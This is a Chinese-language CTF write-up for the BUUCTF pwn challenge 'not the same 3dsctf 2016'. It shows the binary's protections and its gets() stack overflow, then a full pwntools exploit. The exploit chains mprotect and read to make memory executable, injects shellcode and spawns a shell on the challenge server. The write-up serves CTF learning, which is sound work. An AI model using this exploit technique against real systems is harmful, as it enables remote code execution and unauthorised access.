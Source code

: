 ```yaml
---
author: 
  name: Zephyr
title: not the same 3dsctf 2016
date: 2022-3-22 13:21:03
permalink: /pages/2e1547494524d189
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# not the same 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+Fh] [ebp-2Dh]

  printf("b0r4 v3r s3 7u 4h o b1ch4o m3m0... ");
  gets(&v4);
  return 0;
}
```

部分函数表如下

![not_the_same_3dsctf_2016_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/not_the_same_3dsctf_2016_1.png)

## 思路分析

1. 目前信息：
   - main函数内明显的栈溢出漏洞
   - 函数表内有mprotect函数
   - 存在/bin/sh字符串
   - No PIE
   - NX 保护开启
1. 思路：
   - 可栈溢出，有mprotect函数，考虑劫持程序流到mprotect函数处给一段地址区域添加读写及执行权限，将shellcode写入该处，二次返回该处执行获得shell

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
# 使用read向内存中写入shellcode
padding = 45
mem_addr = 0x080EB000
mem_len = 0x1000
mem_type = 7
pop_3times_ret = 0x0806FCC8
# pop 3次将上个函数的3个参数弹出，调整栈布局
shellcode = asm(shellcraft.sh())
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, mem_addr, mem_len,mem_type, read_addr, pop_3times_ret, 0, mem_addr, 0x100, mem_addr])
io.sendline(payload)
io.sendline(shellcode)
# 发送shellcode
io.interactive()
```